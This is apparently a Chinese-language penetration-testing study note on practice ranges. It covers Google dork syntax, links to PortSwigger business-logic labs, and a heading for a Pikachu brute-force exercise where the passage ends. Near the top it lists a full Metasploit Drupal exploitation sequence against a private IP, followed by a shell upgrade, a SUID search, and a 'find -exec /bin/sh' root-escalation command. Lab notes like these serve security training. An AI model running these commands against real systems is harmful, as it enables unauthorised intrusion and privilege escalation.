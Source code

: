  msfconsole

search drupal

use 2

show options

set rhosts 192.168.2.88

run

shell

python -c “import pty;pty.spawn(‘/bin/bash’)”

find / -user root -perm -4000 -print 2>/dev/null

find / -name cron.php -exec “/bin/sh” ; 

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)打靶3

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)打靶2

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)打靶1

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)打靶

### 搜索规则

百度：要求查找ip地址的信息去除csdn的内容搜索博客园的内容，类似于：ip地址 -CSDN博客 +博客园

谷歌：

双引号包起来会查找连续的内容

加* 通配符-星号，代表完整的字词; A * B、A * * B这两个是有区别的

filetype：pdf  检索pdf文件

联合搜索加空格

inurl：login： 地址栏中包含login

更多语法：https://www.yuque.com/sunwu-pbywz/oc04c5/hinmiv?inner=KdFrB

### 支付漏洞

Business logic vulnerabilities 业务逻辑漏洞

例：[Excessive trust in client-side controls](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls)

[High-level logic vulnerability](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-high-level)

### pikachu打靶

#### 暴力破解
